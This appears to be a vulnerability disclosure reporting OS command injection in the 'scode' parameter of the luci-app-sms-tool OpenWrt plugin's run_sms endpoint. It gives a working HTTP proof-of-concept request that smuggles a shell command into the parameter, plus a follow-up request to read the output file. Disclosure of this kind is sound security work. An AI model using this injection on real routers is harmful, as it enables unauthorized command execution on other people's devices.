



## luci-app-sms-tool OpenWrt plugin has a command injection vulnerability

Affected product:  *luci-app-sms-tool* <= 1.9-6

### Product Information

project: https://github.com/4IceG/luci-app-sms-tool

Location of the vulnerability: https://github.com/4IceG/luci-app-sms-tool/blob/master/luci-app-sms-tool/luasrc/controller/modem/sms.lua

### Vulnerability Description

When deal with `run_sms` request,`scode` parameter is vulnerable to OS command injection.



payload:

```http
GET /cgi-bin/luci/admin/modem/sms/run_sms?scode=12345678901234567890';%20ls%20%2F%3E%2Fwww%2Fsmstool123.txt%20#' HTTP/1.1
Host: 192.168.187.101
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth_https=eb2cb32a138221c5bf88eb40ad64e37b
```

inject the command "`ls />/www/smstool123.txt`"



check the result

```http
GET /smstool123.txt HTTP/1.1
Host: 192.168.187.101
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth_https=484d927d43dc6f3b20ca54148260c48d
```

